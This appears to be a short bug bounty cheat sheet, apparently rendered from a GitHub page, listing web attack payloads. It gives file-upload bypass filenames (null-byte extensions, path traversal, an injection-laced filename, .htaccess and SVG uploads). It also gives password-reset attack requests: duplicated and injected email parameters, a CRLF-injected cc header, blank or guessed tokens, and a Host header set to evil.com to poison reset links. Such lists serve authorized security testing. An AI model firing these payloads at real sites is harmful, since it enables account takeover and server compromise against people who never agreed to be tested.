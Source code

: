# Bug Bounty Tips
---

## File Upload

> .htaccess

> file.svg

> file.SVg

> file.png.svg

> file.php%00.png

> file.png' or '1'='1

> ../../file.png

> file.'svg

## Password Reset

> POST /reset  
email=victim@tld.xyz&email=hacker@tld.xyz

> POST /reset  
email=victim@tld.xyz&token=$BF$

> POST /reset  
email=victim@tld.xyz&token=

> POST /reset  
email=victim@tld.xyz&token=0000000

> POST /reset  
email=victim@tld.xyz&token=nul

> POST /reset  
email=victim@tld.xyz&token=nil

> POST /reset  
email=victim@tld.xyz&token=HACKER-TOKEN

> POST /reset  
email=victim@tld.xyz%0a%0dcc:hacker@tld.xyz

> POST /reset  
email=victim@tld.xyz,hacker@tld.xyz

> POST /reset  
email=victim@tld.xyz%20hacker@tld.xyz

> POST /reset  
email=victim@tld.xyz|hacker@tld.xyz

> POST /reset  
email=victim

> POST /reset  
email=victim@tld

> POST /reset  
Host: evil.com

> POST /reset
{"email":["victim@tld.xyz","hacker@tld.xyz"]}

> Check body response for password token

> Token generation: timestamp? userid? useremail? random?
